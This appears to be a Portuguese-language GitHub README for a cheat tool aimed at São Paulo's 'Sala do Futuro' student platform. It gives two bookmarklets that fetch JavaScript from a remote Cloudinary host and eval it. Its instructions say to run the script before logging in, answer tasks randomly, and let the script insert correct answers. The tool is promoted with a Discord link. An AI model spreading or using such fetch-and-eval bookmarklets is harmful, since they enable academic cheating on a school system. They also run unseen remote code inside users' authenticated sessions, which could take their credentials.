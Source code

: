 # 🚀 HCK - PROVA PAULISTA 

### HCK - PROVA PAULISTA:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745012111/saladofuturo.js").then(t=>t.text()).then(eval);
```
### HCK - TAREFAS:
### INSTALAÇÃO:
1. Clique nos três pontos no canto.
2. No canto superior direito e clique na estrela.
3. Clique na mensagem que aparecer embaixo.
4. No campo Nome, escreva qualquer coisa.
5. No campo URL ou Endereço, cole o código:

```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745790408/saladofuturov2.js").then(t=>t.text()).then(eval);
```
### INFORMAÇÕES ADICIONAIS:

1. Execute o script antes de **efetuar o Login** no [Sala do Futuro](https://saladofuturo.educacao.sp.gov.br/login-alunos).
2. **Depois de efetuado**, deve ir até a tarefa que você quer fazer.
3. Responda **aleatoriamente** às questões da tarefa e envie.
4. Logo depois, o script irá inserir todas às **respostas corretamente.**

*Obs: O tempo da tarefa depende unicamente de quanto tempo você ficar na página dela antes de enviar.*

### [Discord: hackermoon](https://discord.gg/snWEnnWF)

### Créditos:

- [Inacallep](https://github.com/inacallep)

- [Crackingnlearn](https://github.com/crackingnlearn)

- [Miturufu](https://github.com/Miturufu)


